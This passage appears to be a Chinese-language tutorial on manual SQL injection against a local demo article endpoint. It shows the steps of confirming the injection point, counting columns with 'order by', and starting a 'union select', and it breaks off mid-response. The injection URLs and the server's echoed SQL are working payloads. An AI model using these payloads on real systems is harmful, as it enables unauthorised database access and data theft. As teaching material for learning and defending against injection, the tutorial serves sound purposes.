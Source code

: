 #### 第一步：确定注入点
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=1# 
请求这个地址，发现浏览器自动过滤了#号，没有对其自动编码，需要手动编码； 
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=1%23 

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "iryTrPab4l8",
    "Title": "文章标题",
    "Content": "内容",
    "HashIDQuery": "iryTrPab4l8' and 1=1#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=1#'",
    "Err": ""
  }
}
```
代码sql字符串中hash_id='%s'有两个单引号，参数中的单引号是为了和第一个单引号配对，#号是为了注释第二号单引号，从而形成一条语法正常的sql语句。此时接口返回正常，确定此处存在注入点。

#### 第二步：确定select语句中的字段数量
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=1 order by 10%23
        
{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "",
    "Title": "",
    "Content": "",
    "HashIDQuery": "iryTrPab4l8' and 1=1 order by 10#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=1 order by 10#'",
    "Err": "Error 1054 (42S22): Unknown column '10' in 'order clause'"
  }
}
```
order by number含义是按照select语句中的第几个字段排序，比如order by 1就是按照hash_id排序，order by 2就是按照title排序，
当超过select语句中字段数量时，sql就会报错，可以通过递减的方式，从10递减到3，接口返回正常，确定sql的字段数量为3；
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=1 order by 3%23
        
{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "iryTrPab4l8",
    "Title": "文章标题",
    "Content": "内容",
    "HashIDQuery": "iryTrPab4l8' and 1=1 order by 3#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=1 order by 3#'",
    "Err": ""
  }
}
```
#### 第三步：暴占位符
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,3%23
        
{
  "code": 0,
```
